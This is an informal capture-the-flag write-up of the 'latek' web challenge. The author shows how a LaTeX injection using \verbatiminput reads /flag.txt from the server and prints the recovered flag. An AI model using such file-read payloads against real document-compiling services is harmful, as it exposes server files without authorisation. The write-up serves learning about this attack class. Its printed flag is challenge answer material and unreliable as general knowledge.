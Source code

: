 # latek

> bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.
> https://latek.amt.rs

I first tried https://latek.amt.rs/document/flag.txt and got

```
foo 1
foo 2
\textbf{foo 3}
```

Like what???? I tried putting that into the website but nothing showed up

There is this: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection (beeg boy found this)

So we can read files in LaTeX:
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{flag.txt}
\end{document}
```

Which gives us this again:

```
foo 1
foo 2
\textbf{foo 3}
```
I was a bit stumped.

Anyways one day I added a `/` in front of the `flag.txt` and checked for it in root:
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```

And I got the flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`

Somehow the biggest roadbock was discovering that it was in root. Oh well whatever
